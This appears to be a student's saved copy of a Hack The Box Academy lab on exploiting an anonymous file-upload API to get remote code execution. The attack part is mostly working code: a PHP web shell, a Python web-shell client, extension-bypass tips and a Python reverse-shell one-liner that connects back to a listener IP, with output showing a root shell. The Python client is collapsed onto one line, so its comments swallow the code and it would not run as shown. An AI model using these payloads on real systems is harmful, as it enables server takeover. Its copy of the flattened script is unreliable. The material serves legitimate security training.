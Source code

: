 ```yaml
---
created: 2023-12-18T16:00:31 (UTC -08:00)
tags: []
source: https://enterprise.hackthebox.com/academy-lab/7282/3329/modules/17/88
author: 
---
```


# HTB Enterprise

> ## Excerpt
> Arbitrary file uploads are among the most critical vulnerabilities. These flaws enable attackers to upload malicious files, execute arbitrary commands on the back-end server, and even take control over the entire server. Arbitrary file upload vulnerabilities affect web applications and APIs alike.

---
## Arbitrary File Upload

Arbitrary file uploads are among the most critical vulnerabilities. These flaws enable attackers to upload malicious files, execute arbitrary commands on the back-end server, and even take control over the entire server. Arbitrary file upload vulnerabilities affect web applications and APIs alike.

## PHP File Upload via API to RCE

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along.

Suppose we are assessing an application residing in `http://<TARGET IP>:3001`.

When we browse the application, an anonymous file uploading functionality sticks out. ![image](https://academy.hackthebox.com/storage/modules/160/2.png)

Let us create the below file (save it as `backdoor.php`) and try to upload it via the available functionality.

Code: php

```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```

The above allows us to append the parameter _cmd_ to our request (to backdoor.php), which will be executed using _shell\_exec()_. This is if we can determine _backdoor.php_'s location, if _backdoor.php_ will be rendered successfully and if no PHP function restrictions exist.

![image](https://academy.hackthebox.com/storage/modules/160/4.png)

-   _backdoor.php_ was successfully uploaded via a POST request to `/api/upload/`. An API seems to be handling the file uploading functionality of the application.
-   The content type has been automatically set to `application/x-php`, which means there is no protection in place. The content type would probably be set to `application/octet-stream` or `text/plain` if there was one.
-   Uploading a file with a _.php_ extension is also allowed. If there was a limitation on the extensions, we could try extensions such as `.jpg.php`, `.PHP`, etc.
-   Using something like [file\_get\_contents()](https://www.php.net/manual/en/function.file-get-contents.php) to identify php code being uploaded seems not in place either.
-   We also receive the location where our file is stored, `http://<TARGET IP>:3001/uploads/backdoor.php`.

We can use the below Python script (save it as `web_shell.py`) to obtain a shell, leveraging the uploaded `backdoor.php` file.

Code: python

```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands) parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example. if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu parser.print_help() # shows help menu elif args.target and args.payload: # elif (if they both have values do some action) print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell) os.system("clear") # clear the screen (linux) while True: # starts a while loop (never ending loop) try: # try statement cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value time.sleep(0.3) # waits 0.3 seconds during each request except requests.exceptions.InvalidSchema: # error handling print("Invalid URL Schema: http:// or https://") except requests.exceptions.ConnectionError: # error handling print("URL is invalid")
```

Use the script as follows.

```shell
p3ta@htb[/htb]$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ id
uid=0(root) gid=0(root) groups=0(root)
```

To obtain a more functional (reverse) shell, execute the below inside the shell gained through the Python script above. Ensure that an active listener (such as Netcat) is in place before executing the below.

```shell
p3ta@htb[/htb]$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<VPN/TUN Adapter IP>",<LISTENER PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

# Question
```
Achieve remote code execution and submit the server's hostname as your answer.
```

![[Pasted image 20231218160117.png]]

Generate the payload
```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```

![[Pasted image 20231218160111.png]]![[Pasted image 20231218160211.png]]

![[Pasted image 20231218160325.png]]